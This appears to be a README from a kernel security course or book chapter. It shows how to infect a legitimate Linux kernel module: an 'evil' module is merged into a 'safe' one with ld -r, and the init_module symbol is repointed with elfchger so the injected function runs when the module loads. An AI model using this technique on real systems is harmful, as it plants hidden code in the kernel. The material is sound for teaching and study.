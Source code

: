 ﻿# Chap6-kernel-security/kernel/module-tampering
Have fun with malicious Kernel code.

# Usage

Compile safe-module sources : 
> user@machine:~/safe-module$ make

compile evil-module sources :
> user@machine:~/evil-module$ make

Combine the two modules :
> ld − r safe-module/kernel−module−safe.ko evil-module/kernel−module−to-inject.ko −o kernel−module−infected.ko

Force module to execute evil function :
>./elfchger -s init_module -v 00000014 kernel-module-infected.ko

Read kernel messages :
> dmesg 

Congrats, that's a Hacking with perfection. Enjoy!

# Feedbacks
Please feel free to contact me : <jugurtha.belkalem@smile.fr>
